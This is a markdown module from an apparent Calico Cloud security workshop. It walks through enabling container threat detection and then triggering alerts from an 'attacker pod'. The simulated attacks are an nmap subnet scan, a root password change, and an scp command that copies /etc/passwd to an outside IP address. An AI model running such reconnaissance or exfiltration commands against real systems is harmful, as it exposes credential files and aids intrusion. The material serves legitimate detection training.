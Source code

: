 # Module 6 - Realtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable container threat detection](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/463d0d01-5868-47a6-acfc-f75fe0c3a4fc)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![ctd running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/4d37b974-bdf2-4f97-a4a7-31f5b43b3b22)
 
   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```
   
   Wait a minute and look in the Calico Cloud UI in the `Activity` > `Alerts`.

   Optionally, you can also try the following;
   
   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

--- 

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](/modules/module-7-quarantine-kspm.md)  <br>

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](/modules/module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
